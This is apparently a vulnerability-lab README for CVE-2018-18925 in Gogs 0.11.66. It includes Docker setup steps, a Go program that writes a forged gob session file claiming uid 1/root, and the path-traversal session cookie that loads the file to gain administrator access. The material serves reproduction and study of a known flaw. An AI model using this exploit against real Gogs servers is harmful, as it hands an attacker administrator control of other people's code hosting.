

Gogs Session Overwrite and Arbitrary User Forge (CVE-2018-18925)¶
Gogs is a painless self-hosted Git service.
Gogs 0.11.66 allows remote code execution because it does not properly validate session IDs, as demonstrated by a .. session-file forgery in the file session provider in file.go. This is related to session ID handling in the go-macaron/session code for Macaron.
References:
- https://github.com/gogs/gogs/issues/5469
- https://xz.aliyun.com/t/3168
- https://www.anquanke.com/post/id/163575
Vulnerable environment¶
Execute following command to start a Gogs server 0.11.66:
docker compose up -d
After the server is started, you can see the installation page on http://your-ip:3000. Follow the instructions to initialize the application, keep in mind that use SQLite as the database provider and enable the user register.
Restart the server by docker compose restart after the installation, otherwise the session won't be stored in the filesystem.
Exploit¶
Before the exploit, use Gob to generate a evil session file:
package main
import (
"bytes"
"encoding/gob"
"encoding/hex"
"fmt"
"io/ioutil"
"os"
)
func EncodeGob(obj map[interface{}]interface{}) ([]byte, error) {
for _, v := range obj {
gob.Register(v)
}
buf := bytes.NewBuffer(nil)
err := gob.NewEncoder(buf).Encode(obj)
return buf.Bytes(), err
}
func main() {
var uid int64 = 1
obj := map[interface{}]interface{}{"_old_uid": "1", "uid": uid, "uname": "root"}
data, err := EncodeGob(obj)
if err != nil {
fmt.Println(err)
}
err = ioutil.WriteFile("data", data, os.O_CREATE|os.O_WRONLY)
if err != nil {
fmt.Println(err)
}
edata := hex.EncodeToString(data)
fmt.Println(edata)
}
Sign up a normal user account, then create a project and upload the generated evil file on release page:

Get the aboslute file path from the attachment URL, for example ./attachments/2eb7f1a2-b5ec-482e-a297-15b625d24a10.
Finally, construct a malicious session id like i_like_gogits=../attachments/2/e/2eb7f1a2-b5ec-482e-a297-15b625d24a10 and you can see that you are administrator (uid=1) now:

To execte commands as the administrator role, please refer to the reference links.